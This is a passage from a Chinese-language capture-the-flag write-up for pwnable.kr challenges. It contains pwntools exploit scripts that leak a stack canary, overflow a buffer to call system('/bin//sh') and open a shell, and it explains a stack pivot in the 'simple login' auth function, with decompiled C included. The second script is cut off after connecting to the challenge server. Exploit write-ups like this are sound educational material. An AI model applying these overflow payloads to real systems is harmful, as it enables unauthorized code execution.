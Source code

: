 ```python
v = ['0', '0'] + v[:-1]
for i in xrange(len(v)):
    v[i] = int(v[i])
t.close()

p.recvline()
captcha = p.recvline().split(':')[1][1:-1]
p.sendline(captcha)
canary = int(captcha)-v[6]+v[8]-v[9]-v[4]+v[5]-v[3]-v[7]
canary = ctypes.c_uint(canary).value
print canary
p.recvline()
p.recvline()

#gdb.attach(p)
payload = ''
payload += 'A'*0x200
payload += p32(canary)
payload += 'B'*0xc
payload += p32(0x08048880) # system plt
payload += 'C'*4
payload += p32(0x0804B3E0) # g_buf
payload = base64.b64encode(payload)
payload += '\x00'*(0x300-len(payload))
payload +=  '/bin//sh'
p.sendline(payload)
p.interactive()
```

## simple login

这道题目比较简单，在`auth`函数中存在溢出可覆盖前一函数`main`的ebp：

```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1);
  s2 = (char *)calc_md5(&v2, 12);
  printf("hash : %s\n", (char)s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```

程序中提供了shell函数，根据`leave; retn`做栈迁移至input全局变量的地址即可，利用脚本如下：

```python
from base64 import b64encode
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

payload = ''
payload += p32(0)
payload += p32(0x08049284)
payload += p32(0x0811EB40)
payload = b64encode(payload)

p = remote('pwnable.kr', 9003)
#p = process('./login')
p.recvuntil('Authenticate : ')
```